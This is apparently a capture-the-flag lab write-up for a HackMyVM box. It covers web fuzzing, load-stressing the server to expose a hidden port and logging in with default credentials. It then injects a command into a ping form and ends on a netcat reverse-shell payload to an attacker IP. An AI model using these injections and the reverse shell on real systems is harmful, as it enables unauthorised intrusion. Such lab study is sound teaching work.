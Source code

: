 ### Web Content on Port 80
![[Screenshot 2025-08-20 102612.png]]
Running `feroxbuster` on the http server
```bash
feroxbuster -u http://10.9.9.22/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -x php,jpg,jpeg,txt,conf,html
```
After running the above command I ended up with two directories.
```bash
index.html
index.php
```
The file names may have the same name but have different contents. the index.html file has basic text and nothing stands out but as for the `index.php` it tells us on what the site does.
Here are the contents from the `index.php` file
![[Screenshot 2025-08-20 102643.png]]
The source code of the page does not reveal anything to us but there's something on the page that catches our eyes. `system operational` meaning that this page is used by the developer to check for the operational status of the website and detects DDOS attacks.
#### Parameter Fuzzing
We are going to check for all the parameters in the `index.php` file. For this task we are going to use `ffuf`, an open source tool for fuzzing directories and parameters.
```bash
ffuf -u http://10.9.9.22/index.php\?FUZZ\=1 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```
the `-fw` flag is used to filter out words. and after running this we got `stress` as the parameter. when trying to read files using `LFI` we are unsuccessful
```bash
ffuf -u http://10.9.9.22/index.php\?FUZZ\=../../../../../../../etc/passwd -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```
Since there's nothing we can do with the `stress` parameter. What we are going to do is to stress the server and check to see if the responses and the number of open ports changes on the server.
```bash
ffuf -u http://10.9.9.22/index.php\?stress\=FUZZ -w /usr/share/wordlists/seclists/Fuzzing/6-digits-000000-999999.txt -mc 200 -fw 909
```
Remember to include the `sleep` command so to not overwhelm the server, which could lead to the server freezing and not being able to respond. Use responsibly.
Some servers when overloaded, a port appears to be opened to a web application," suggests that this is an attempt to trigger a hidden mechanism through server load. This is an  unconventional hidden feature.
After stressing the server we finally have access to the port `8080` within the server. and here's the `http` content.
![[Pasted image 20250820124730.png]]
Trying `admin:admin` as the username and password and bingo we have access to the console.
![[Screenshot 2025-08-20 124840.png]]
We can use this panel to ping ip address. It's a simple function where it returns if the ip address entered  is reachable or not.
![[Screenshot 2025-08-20 125022.png]]
we can try to `RCE` by using different characters `|`, `;`, `&`. luckily we are able to run system commands by piping the command we want after the IP address.
After running this command `172.16.1.1;id` we get this output
![[Pasted image 20250820125559.png]]Note the response at the end. The system has run the first command successfully and then executed the command after the `;` character.
To get a reverse shell we are going to use the following command `172.16.1.1; busybox nc 10.6.6.5 1234 -e /bin/bash`, `10.6.6.5` is the attackers IP address, on the attackers machine we run `nc -lvnp 1234`. 
```bash
kali :: exercises/HMV/umz » nc -lvnp 4455
listening on [any] 4455 ...
```